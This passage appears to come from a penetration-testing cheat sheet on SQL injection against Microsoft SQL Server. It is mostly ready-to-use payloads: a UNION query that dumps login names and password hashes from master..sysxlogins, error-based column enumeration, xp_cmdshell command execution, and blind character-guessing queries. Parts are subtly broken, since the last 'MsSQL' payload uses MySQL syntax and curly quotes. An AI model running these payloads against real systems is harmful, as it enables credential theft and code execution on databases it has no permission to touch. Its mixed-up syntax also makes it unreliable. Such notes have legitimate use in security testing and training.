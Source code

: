 * Get hashes

  ```text
  1002' UNION ALL SELECT NULL,CHAR(113)+ISNULL(CAST(name AS NVARCHAR(4000)),CHAR(32))+CHAR(98)+ISNULL(CAST(master.dbo.fn_varbintohexstr(password) AS NVARCHAR(4000)),CHAR(32))+CHAR(113),NULL,NULL FROM master..sysxlogins--
  ```

## MsSql error-based Exploitation

* Group by and **having** can be used to specify a search condition for a group and aggregate the result.
  * Sending **' having 1=1--** should produce **column 'table.column1' is invalid**
  * 2. Sending **' group by table.column1 having 1=1--** should produce **column 'table.column2' is invalid**
  * 3. Sending **' group by table.column1,table.column2 having 1=1--** should end up generating no error when you specify all the columns.
* You can generate error and get debug info:
  * Sending **convert\(int, @@version\)--** should trigger the error **failed when convering SQL Server...**\*
* Other payloads:

  ```text
  convert(int,user_name())--
  convert(int, @@db_name())--
  ```

* If the DB runs as SA, you can run **XP\_CMDSHELL** to get code execution.
* Useful queries:

  ```text
  SELECT Distinct TABLE_NAME FROM information_schema.TABLES
  exec master.dbo.xp_cmdshell 'CMD'
  ```

## MsSqlI blind exploitation

* For numeric contexts \(look for differences\):

  ```text
  and 1=1
  and 1=2
  ```

* Once we found the injection, we can leak data from the DB by guessing one character at a time as follows:

  ```text
  AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)=109
  ```

* if it is true, we know the db\_name starts with 109\(m\).
* Ask if the first character of the user is 'a':

  ```text
  and if(substring (user(),1,1)=’a’,SLEEP(5),1)--”
  ```
